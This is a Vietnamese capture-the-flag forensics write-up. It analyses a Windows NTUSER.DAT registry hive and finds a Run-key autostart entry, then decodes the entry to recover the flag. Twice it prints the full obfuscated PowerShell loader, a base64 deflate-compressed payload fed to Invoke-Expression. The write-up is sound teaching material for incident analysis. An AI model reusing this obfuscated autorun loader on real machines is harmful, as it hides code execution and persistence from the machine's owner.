


## Đề 
> Hòa thấy hiện tượng lạ mỗi khi anh ta khởi động máy tính. Anh ta nghĩ rằng việc tải các video không lành mạnh gần đây đã khiến máy tính của anh ta bị hack.
## Link downloads
> https://drive.google.com/file/d/1pShye_YtnUuIObPdnq9PeiIge0Oelsix/view?usp=drive_link (pass: cookiehanhoan)
## Giải 
### Cách 1
- Sau khi tải về em được 1 file tên `NTUSER.DAT`, kiểm tra loại file em thu được kết quả
```text
NTUSER.DAT: MS Windows registry file, NT/2000 or above
```
- Em sẽ mở file registry với công cụ `registry explorer` của windows
- 
- Vì tiêu đề là máy tính của HOà bị hack vì tải phần mềm crack nên ắt hẳn nó phải liên quan đến process cmd.exe và powershell.exe. Em lần lượt search 2 chuỗi này
- Tại powershell.exe em thấy được 1 đoạn shell như sau : 
- 
- 
> "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" "(neW-obJEct io.COMprEssIon.dEFlATesTReAm( [sySTem.IO.memorYSTREam] [coNVeRT]::FRoMBAse64stRInG( 'TVFva4JAGP8qh7hxx/IwzbaSBZtsKwiLGexFhJg+pMs09AmL6rvP03S9uoe739/nZD+OIEHySmwolNn6F3wkzilH2HEbkDupvwXM+cKaWxWSSt2Bxrv9F64ZOteepU5vYOjMlHPMwNuVQnItyb8AneqOMnO5PiEsVytZnHkJUjnvG4ZuXB7O6tUswigGSuVI0Gsh/g1eQGt8h6gdUo98CskGQ8aIkgBR2dmUAw+9kkfvCiiL0x5sbwdNlQUckb851mTykfhpECUbdstXjo2LMIlEE0iCtedvhWgER1I7aKPHLrmQ2QGVmkbuoFoVvOE9Eckaj8+26vbcTeomqptjL3OLUM/0q1Q+030RMD73MBTYEZFuSmUMYbpEERduSVfDYZW8SvwuktJ/33bx/CeLEGirU7Zp52ZpLfYzPuQhZVez+SsrTnOg7A8='), [SYSTEM.iO.ComPReSSion.CoMPrEsSIonmODe]::DeCOmpresS)|FOREAcH-object{ neW-obJEct io.streAMrEadeR( $_,[sysTem.TExt.EnCoDING]::asCIi )}).reaDToEnD()|inVOKe-exprEsSIon"
- Ở đây nó sẽ mã hoá dòng trong dấu nháy, khi tiến hành thực thi nó sẽ giải mã ra 
- Bây giờ em sẽ gán đoạn thực thi đó cho 1 biến a
- 
- Sau đó in ra 
- 
> Flag : `CHH{N0_4_go_n0_st4r_wh3r3}`
### Cách 2
- Vì trong thực tế không thể tìm kiếm bằng cách tìm cmd.exe hay powershell.exe nên em sẽ làm 1 cách khác 
- Theo đề bài ta có máy tính của Hoà bị hack, khả ngăng cao các tệp của hacker sẽ tự động thực thi kể từ lúc user đăng nhập (đây là tính năng auto run của windows)
- Một vài tài liệu được em thu thập [ở đây](https://tientrieu.net/639-virus-autorun-la-gi.html)
- Chương trình tự khởi động được lưu như sau:
- 
- Sau khi truy cập vào `NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\Run` em thấy 1 đoạn shell được tự động chạy từ powershell
- 
``` 
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" "(neW-obJEct io.COMprEssIon.dEFlATesTReAm( [sySTem.IO.memorYSTREam] [coNVeRT]::FRoMBAse64stRInG( 'TVFva4JAGP8qh7hxx/IwzbaSBZtsKwiLGexFhJg+pMs09AmL6rvP03S9uoe739/nZD+OIEHySmwolNn6F3wkzilH2HEbkDupvwXM+cKaWxWSSt2Bxrv9F64ZOteepU5vYOjMlHPMwNuVQnItyb8AneqOMnO5PiEsVytZnHkJUjnvG4ZuXB7O6tUswigGSuVI0Gsh/g1eQGt8h6gdUo98CskGQ8aIkgBR2dmUAw+9kkfvCiiL0x5sbwdNlQUckb851mTykfhpECUbdstXjo2LMIlEE0iCtedvhWgER1I7aKPHLrmQ2QGVmkbuoFoVvOE9Eckaj8+26vbcTeomqptjL3OLUM/0q1Q+030RMD73MBTYEZFuSmUMYbpEERduSVfDYZW8SvwuktJ/33bx/CeLEGirU7Zp52ZpLfYzPuQhZVez+SsrTnOg7A8='), [SYSTEM.iO.ComPReSSion.CoMPrEsSIonmODe]::DeCOmpresS)|FOREAcH-object{ neW-obJEct io.streAMrEadeR( $_,[sysTem.TExt.EnCoDING]::asCIi )}).reaDToEnD()|inVOKe-exprEsSIon"
```
- Lệnh này sẽ tiến hành mã hoá các kí tự trong dấu nháy, sau đó tiến hành giải mã bằng lệnh thực thi `inVOKe-exprEsSIon`
- Em sẽ xoá lệnh thực thi và gán dữ liệu cho 1 biến (mục đích để in ra dữ liệu lúc sau)
- 
- 
> Flag : `CHH{N0_4_go_n0_st4r_wh3r3}`